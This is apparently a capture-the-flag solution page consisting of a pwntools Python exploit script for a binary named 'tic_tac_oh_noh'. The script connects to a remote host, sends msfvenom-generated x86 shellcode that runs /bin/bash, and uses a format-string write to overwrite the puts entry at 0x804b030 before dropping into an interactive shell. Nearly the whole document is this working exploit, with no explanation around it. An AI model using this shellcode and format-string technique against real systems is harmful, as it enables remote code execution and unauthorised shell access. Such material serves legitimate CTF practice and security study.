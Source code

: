 
## Exploit Script
``` python
from pwn import *
import socket

context.log_level = 'info'

c = remote("104.196.106.59", 7221)
#c = process('./tic_tac_oh_noh')

# gdb.attach(c, """
#     display /xw 0x56558034
#     b *0x56555d0b
#     b *0x56555d11
#     c
#     """)

# msfvenom --payload linux/x86/exec CMD="/bin/bash" --format python --bad-chars "\x00\x0a\x0d\x0c"

buf =  "A"*15
buf += "\x29\xc9\x83\xe9\xf4\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += "\x76\x0e\x6d\xdf\x22\x22\x83\xee\xfc\xe2\xf4\x07\xd4"
buf += "\x7a\xbb\x3f\xb9\x4a\x0f\x0e\x56\xc5\x4a\x42\xac\x4a"
buf += "\x22\x05\xf0\x40\x4b\x03\x56\xc1\x70\x85\xd5\x22\x22"
buf += "\x6d\xf0\x40\x4b\x03\xf0\x40\x43\x1e\xb7\x22\x75\x3e"
buf += "\x56\xc3\xef\xed\xdf\x22\x22"



def send_exploit(arg):
    for x in range(len(arg)):
        c.sendline(arg[x])

log.warning("Re-connecting and sending exploit\n")

loc = "0x804b030"
puts_plt_upper = p32(int(loc,16)+2)
puts_plt_lower = p32(int(loc,16))

exploit = buf + puts_plt_lower + puts_plt_upper + "%{0}c%{1}$hn%{2}c%{3}$hn".format((24576-9-(len(buf))), 94, (38909), 95)

c.sendline("A")
c.sendline("x")
send_exploit(exploit)
c.sendline("q")
c.interactive()
c.close()
```
